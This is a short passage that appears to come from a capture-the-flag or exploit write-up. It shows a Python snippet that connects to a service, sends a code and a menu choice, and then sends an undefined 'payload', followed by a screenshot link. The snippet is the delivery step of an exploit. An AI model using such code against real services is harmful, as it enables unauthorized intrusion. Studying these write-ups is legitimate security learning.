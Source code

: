 ```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))
##recibir la respuesta del servicio,primeros 1024 bytes
s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
s.recv(1025)
s.send(payload)


```


![Pasted image 20240110053038.png](/img/user/imgs/Pasted%20image%2020240110053038.png)

